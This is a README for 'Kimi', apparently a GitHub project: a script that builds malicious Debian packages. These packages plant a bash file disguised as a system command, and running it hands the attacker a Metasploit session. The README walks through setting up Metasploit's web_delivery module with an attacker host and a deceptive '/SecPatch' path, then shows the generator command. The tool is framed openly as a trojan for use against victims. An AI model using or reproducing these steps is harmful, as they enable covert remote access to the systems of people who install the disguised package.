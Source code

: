 
Script to generate malicious debian packages (debain trojans).

# About & Usage :::
    Kimi is name inspired from "Kimimaro" one of my favriote charater from anime called "Naruto".

    Kimi is a script which generates Malicious debian package for metasploit
    which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
    Bash file injects and acts like some system command which when executed by victim 
    and attacker hits with session.

    Kimi basically depends upon web_delivery module and every thing is automated. 
    all the attacker needs is to do following settings :
    
    Setting up Web_Delivery in msf :
    
    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > set srvhost 192.168.0.102
    srvhost => 192.168.0.102
    msf exploit(web_delivery) > set uripath /SecPatch
    uripath => /SecPatch
    msf exploit(web_delivery) > set Lhost 192.168.0.102
    Lhost => 192.168.0.102
    msf exploit(web_delivery) > show options
    msf exploit(web_delivery) > exploit
    
    Generating Malicious payload :
    
    dreamer@mindless ~/Desktop/projects/kimi $ sudo python kimi.py -n nano -l 127.0.0.1 -V 1.0
    
    NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
    It can be used standalone also all user needs is to change uripath in msf variables
    -------------------------------------------------------------------------------------

# ScreenShots :::

![Main Banner](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/main_banner.png)
![Kimi In Action](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/exploiting.png)

# Shouts to :::
  Suspicious Shell Activity [Red Team]
# Doubts? Insults?
  Twitter : @bofheaded
  
